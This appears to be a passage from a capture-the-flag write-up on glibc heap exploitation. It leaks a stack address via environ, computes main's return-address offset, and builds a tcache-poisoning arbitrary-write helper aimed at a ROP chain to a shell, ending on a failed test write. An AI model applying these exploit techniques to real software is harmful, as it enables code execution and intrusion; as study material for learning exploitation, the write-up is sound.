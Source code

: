 Output:

```
[*] environ @ 0x7fffffffe678   
```
```
gef_  tele 0x7fffffffe678
0x007fffffffe678│+0x0000: 0x007fffffffe89b  _  "SHELL=/bin/bash"
0x007fffffffe680│+0x0008: 0x007fffffffe8ab  _  "TERM_PROGRAM_VERSION=3.2a"
0x007fffffffe688│+0x0010: 0x007fffffffe8c5  _  "TMUX=/tmp/tmux-0/default,16,0"
```

Looks like we successfully leaked the stack.

To find the address of the return pointer of main, I set a breakpoint in main and do

```
gef_  p $rbp
$7 = (void *) 0x7fffffffe550
```

Return instruction pointer is 8 bytes (one 64bit word) after RBP, which gives:

RIP = RBP + 8 = 0x7fffffffe558

The diff between Environ and RIP is 0x7fffffffe678 - 0x7fffffffe558 = 0x120

so by subtracting 0x120 from the environ address we leaked, we should be able to find the return instruction pointer and hopefully write a ROP chain to get shell, even with ASLR enabled.

### Write What Where Who Why When ?

We probably need to write several times since the edit size limit is 0x10. Let's make a function out of the steps we just did, but change the `View` to a `Write`

```python
def WWW(Where, What):
    Malloc(0)
    Malloc(1)
    Free(0)
    Free(1)
    Write(1, p64(Where^value_0))
    Malloc(0)
    Malloc(0)
    Write(0, What)
```

### Testing our arbitrary write primitive

Let's try to write something into RIP!

```python
WWW(environ-0x120, 0xc01db0075)
```

Output:

```
    b'malloc(): unaligned tcache chunk detected\n'
    b'\n'
    b'Child terminated with signal = 0x6 (SIGABRT)\n'
```
